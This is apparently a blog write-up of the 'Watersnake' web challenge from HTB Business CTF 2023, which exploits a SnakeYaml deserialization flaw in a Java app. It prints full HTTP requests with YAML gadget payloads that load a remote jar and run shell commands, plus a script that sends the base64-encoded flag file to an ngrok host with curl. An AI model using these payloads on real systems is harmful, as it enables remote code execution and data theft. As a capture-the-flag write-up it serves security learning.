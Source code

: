 ```yaml
---
layout: post
title: HTB Business CTF 2023 Writeup - Web - Watersnake
date: 2023-07-18
type: post
tags:
- Writeup
- Hacking
- BusinessCTF
- CTF
permalink: /2023/07/HTBBusinessCTF/WebWatersnake
img: 2023/07/HTBBusinessCTF/Watersnake/WatersnakeDescription.png
---
```


In this challenge I had to exploit a Java deserialization vulnerability in [SnakeYaml](https://github.com/snakeyaml/snakeyaml).

> Easy

> As the United Nations of Zenium and the Board of Arodor engage in a fierce competition to establish a colony on Mars using Vitalium. State hackers from UNZ identify an exposed instance of the critical facility water management software, Watersnakev3, in one of Arodor's main water treatment plants. The objective is to gain control over the water supply, and weaken the Arodor's infrastructure.

The challenge provided a web link and the source code of the application.

![Dashboard](/assets/images/2023/07/HTBBusinessCTF/Watersnake/Dashboard.png "Dashboard")

I looked around the application, there was a page that allowed updating the application framework.

![Update Framework](/assets/images/2023/07/HTBBusinessCTF/Watersnake/Update.png "Update Framework")

I looked at the code for that page.

```java
import org.yaml.snakeyaml.Yaml;

...

@PostMapping("/update")
public String update(@RequestParam(name = "config") String updateConfig) {
      InputStream is = new ByteArrayInputStream(updateConfig.getBytes());
    
      Yaml yaml = new Yaml();

    Map<String, Object> obj = yaml.load(is);

  obj.forEach((key, value) -> System.out.println(key + ":" + value));

  return "Config queued for firmware update";
}
```

The code was not doing much. It parsed the posted data with SnakeYaml and printed the information on the server. It didn't use the data for anything else.

I looked for SnakeYaml and found a [deserialization vulnerability](https://snyk.io/blog/unsafe-deserialization-snakeyaml-java-cve-2022-1471/). I tried the provided example.

```http
POST /update HTTP/1.1
Host: 94.237.59.27:41305
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://94.237.59.27:41305/update.html
Content-Type: multipart/form-data; boundary=---------------------------35757842852628603361634950895
Origin: http://94.237.59.27:41305
Connection: keep-alive
Content-Length: 323

-----------------------------35757842852628603361634950895
Content-Disposition: form-data; name="config"

a: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["https://03aa-69-159-156-59.ngrok-free.app/test.jar"]]]]
b: fdsklj
-----------------------------35757842852628603361634950895--
```

My web server got a hit.

```
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
127.0.0.1 - - [14/Jul/2023 18:55:52] "GET /test.jar HTTP/1.1" 200 -
```

With that, I knew I could execute code on the server. I created a small script to read the flag and send it to my server.

```bash
$ cat test.sh
#!/bin/bash

TEST=`cat /flag.txt | base64`
curl https://b53d-69-159-156-59.ngrok-free.app/$TEST
```

Then I used the vulnerability to download the file from the server.

```http
POST /update HTTP/1.1
Host: 94.237.59.27:41305
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://94.237.59.27:41305/update.html
Content-Type: multipart/form-data; boundary=---------------------------35757842852628603361634950895
Origin: http://94.237.59.27:41305
Connection: keep-alive
Content-Length: 296

-----------------------------35757842852628603361634950895
Content-Disposition: form-data; name="config"

a: !!com.lean.watersnake.GetWaterLevel ["curl https://b53d-69-159-156-59.ngrok-free.app/test.sh -o /tmp/test.sh"]
b: fdsklj
-----------------------------35757842852628603361634950895--

```

And finally execute it.

```http
POST /update HTTP/1.1
Host: 94.237.59.27:41305
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://94.237.59.27:41305/update.html
Content-Type: multipart/form-data; boundary=---------------------------35757842852628603361634950895
Origin: http://94.237.59.27:41305
Connection: keep-alive
Content-Length: 243

-----------------------------35757842852628603361634950895
Content-Disposition: form-data; name="config"

a: !!com.lean.watersnake.GetWaterLevel ["bash /tmp/test.sh"]
b: fdsklj
-----------------------------35757842852628603361634950895--
```

My server got the file download, and the base64 encoded flag.

```bash
127.0.0.1 - - [14/Jul/2023 19:02:18] "GET /test.sh HTTP/1.1" 200 -
127.0.0.1 - - [14/Jul/2023 19:02:23] code 404, message File not found
127.0.0.1 - - [14/Jul/2023 19:02:24] "GET /SFRCe3IxZDNfdGgzX3NuNGszfQ== HTTP/1.1" 404 -
```

I decoded the flag and submitted it.

```bash
$ echo -n SFRCe3IxZDNfdGgzX3NuNGszfQ== | base64 -d
HTB{r1d3_th3_sn4k3}
```